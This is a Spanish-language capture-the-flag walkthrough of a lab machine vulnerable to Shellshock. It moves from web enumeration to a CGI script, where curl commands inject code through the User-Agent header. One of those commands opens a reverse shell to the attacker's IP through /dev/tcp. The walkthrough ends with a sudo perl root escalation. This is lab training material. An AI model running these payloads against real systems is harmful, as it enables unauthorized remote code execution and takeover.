# Shocked



Launchpad -> Xenial
Whatweb -> http://10.129.18.211 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.18.211]

- 80 -> http



Nos descargamos la imagen a ver si hay que hacer algo de esteganografía
-
```bash
exiftool bug.jpg
```

-> No reporta nada raro
-
```bash
steghide extract -sf bug.jpg
```

-> Nos pide un salvoconducto

- Gobuster
```bash
gobuster dir -u http://10.129.18.211 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,git -t 200
```

Nada

- Puertos UDP -> Nada, solo 68 open|filtered dhcp

- Probamos con exploit de Apache 2.4.18



- Probamos con exploit de OpenSSH 7.2p2



Probamos enumeración de usuarios pero hay falsos positivos, no nos sirve

- Al hacer escaneo de directorios es muy importante incluir una barra al final del directorio, es decir si ponemos http://10.129.19.223/cgi-bin, esto nos devolverá un 404, pero si escribimos http://10.129.19.223/cgi-bin/, nos devolverá un 403 forbidden
Por eso wfuzz nos reporta dos directorios con 403, que gobuster no (los # son f.positivos)
```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt http://10.129.19.223/FUZZ/
```







- Qué es un cgi-bin



Ejecuta archivos pero, python o c, por lo que haremos otra búsqueda para ver si encontramos archivos dentro de este subdirectorio

- El escaneo ahora será por archivos .pl o .sh .cgi o .py
Esto se lo diremos a wfuzz con
```bash
-z list,sh-pl-cgi
```

y añadiremos en el payload
```bash
FUZZ.FUZ2Z
```

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -z list,sh-pl-cgi http://10.129.19.223/cgi-bin/FUZZ.FUZ2Z
```

Encontramos un **user - sh**

- Accedemos al archivo y vemos que es un script donde actualiza la hora en tiempo real
```bash
curl -s -X GET http://10.129.19.223/cgi-bin/user.sh
```



- Podemos probar un **Shell-shock attack** para archivos .cgi suele ir
Hay un script de nmap que nos puede servir para este ataque
```bash
locate shellshock | grep \.nse
```

Encontramos */usr/share/nmap/scripts/http-shellshock.nse*

- Ejecutamos nmap con el parámetro *--script http-shellshock* y con *--script-args uri=PATH* para pasarle el path dentro de la IP de la máquina víctima
```bash
nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.129.19.223
```



Nos dice que es vulnerable

- Vamos a ponernos en escucha con **tshark** por la interfaz *tun0* para lanzar de nuevo el checker de nmap y capturar los paquetes
```bash
tshark -w captura.cap -i tun0
nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.129.21.28
```

Capturamos 49 paquetes

- visualizamos el contenido con tshark filtrando por peticiones http que son las que nos interesan
```bash
tshark -r captura.cap -Y 'http'
```



- Vamos a ver los campos por json
```bash
tshark -r captura.cap -Y 'http' -Tjson
```

Vemos un campo que nos interesa para este tipo de ataques que es el **tcp.payload** que está en hexadecimal

- Filtraremos directamente por el campo
```bash
tshark -r captura.cap -Y "http" -Tfields -e "tcp.payload"
```



- Lo pasamos a texto plano
```bash
tshark -r captura.cap -Y "http" -Tfields -e "tcp.payload" | xxd -ps -r
```



- Vemos en el cuerpo de la petición un formato explotable de shell shock



```bash
() { :;};
```

- Buscamos en google "shell shock payload"
https://blog.cloudflare.com/inside-shellshock/
Vemos que se puede inyectar comandos con un paylaod dentro de las cabeceras



- En nuestro caso es vulnerable la cabecera User-Agent al igual que en el ejemplo por lo que probaremos con ella
```bash
curl -s -X GET "http://10.129.21.28/cgi-bin/user.sh" -H "User-Agent: () { :; }; /usr/bin/whoami"
```



Si nos da error poner un
```bash
;echo;
```

antes del comando, además de usar la ruta absoluta del comando, es decir */usr/bin/whoami*
```bash
curl -s -X GET "http://10.129.21.28/cgi-bin/user.sh" -H "User-Agent: () { :; };echo; /usr/bin/whoami"
```



- Tenemos RCE por lo que enviar una revshell
```bash
curl -s -X GET "http://10.129.21.28/cgi-bin/user.sh" -H "User-Agent: () { :; };echo; /bin/bash -i >&/dev/tcp/10.10.16.179/443 0>&1"
```

shelly

## Escalada

-
```bash
id
```

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
- *lxd* -> con searchsploit hay un exploit de automatización de la escalada (crítico)

-
```bash
sudo -l
```

-> /usr/bin/perl
```bash
sudo perl -e 'exec "/bin/bash"'
```

root
